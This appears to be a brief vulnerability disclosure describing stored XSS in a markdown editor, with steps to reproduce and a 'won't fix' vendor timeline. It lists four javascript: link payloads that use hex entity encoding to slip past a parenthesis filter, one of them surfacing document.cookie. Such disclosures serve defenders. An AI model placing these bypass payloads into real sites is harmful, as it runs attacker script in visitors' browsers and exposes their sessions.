


# Markdown XSS

---

> **Reson:** Markdown editor only check `()` and remove `)` . Just using hex encode to bypass it .

## Steps To Reproduce:

1. Create `basic template`

2. Create post with `markdown editor`
3. Input some payload :

```markdown
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
```

```markdown
[a](javascript:window.onerror=alert;throw%20document.cookie)
```

```markdown
[a](javascript:this;alert(1&#41;)
```

```markdown
[a](javascript:alert(document.domain&#41;)
```



4. Preview or publish post
5. XSS execute



---

# TIMELINE:

- **18/2/2020** : Report for vendor and won't fix 

  